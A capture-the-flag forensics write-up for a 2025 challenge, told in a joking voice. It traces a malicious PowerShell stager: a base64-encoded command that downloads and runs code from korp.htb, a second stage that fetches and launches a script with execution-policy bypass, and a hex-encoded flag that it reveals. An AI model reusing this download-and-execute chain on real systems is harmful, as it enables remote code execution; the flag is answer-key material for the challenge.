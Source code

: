 # Cyber Apocalypse CTF 2025: Tales from Eldoria

## Thorin’s Amulet
> Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service

- **Category**: Forensics 
- **Difficulty**: Very Easy
- **Author**: Alexct549

## Writeup

WHY ARE THIS FORENSICS THIS LONG 😭😭😭

```ps1
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

Base 64 my beloved 😘

```
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Ok impress me

```bash
curl -s http://94.237.63.32:37077/update
```

NOO NOT ANOTHER PS1 COME ON 😰

```bash
wget http://94.237.63.32:37077/update -O update.ps1
```

```ps1
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

Oh guess what...yeah ANOTHER PS1 🤯

```bash
curl -s 94.237.63.32:37077 -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" -o a541a.ps1
```

```ps1
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

Disgusting 🤢 let me convert it to python real quick

```python
hex_string = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
decoded_string = bytes.fromhex(hex_string).decode()
print(decoded_string)
```

Never again 😤

> HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
